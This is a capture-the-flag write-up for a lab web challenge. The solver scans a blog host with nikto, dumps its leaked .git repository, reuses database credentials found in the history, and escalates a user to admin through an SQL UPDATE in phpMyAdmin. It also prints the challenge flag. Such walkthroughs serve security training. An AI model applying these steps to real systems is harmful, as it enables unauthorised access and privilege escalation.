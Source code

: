 #### Challenge:

Hi, packet inspector,

a simple blog webpage was created where all employees can write their suggestions for improvements. It is one part of the optimization plan designed by our allmighty AI.

Examine the web [http://blog.mysterious-delivery.tcc:20000/
](http://blog.mysterious-delivery.tcc:20000/) and find any interesting information.

May the Packet be with you!

---

#### Solution:

- playing with `nikto` reveals couple of interesting things:
  - actual `git` repository of the service is leaked
  - `phpmyadmin` web `UI` is accessible

```bash
nikto -h http://blog.mysterious-delivery.tcc:20000/
git-dumper http://blog.mysterious-delivery.tcc:20000/.git/ ~/blog 
```

- poking around in the repository history reveals that multiple usernames and passwords have been used in past, playing with this one of the combination works `attendance:56843437e5c747a2c9c08e4b79f109c3` and we have access to DB
- then altering the role via web `SQL` client for specific user and we can access the flag end point `/settings`

```sql
use attendance 
update user set role = "admin" where id = 136 
```

---

<details><summary>FLAG:</summary>

```
FLAG{gDfv-5zlU-spVN-D4Qb}
```

</details>
<br/>
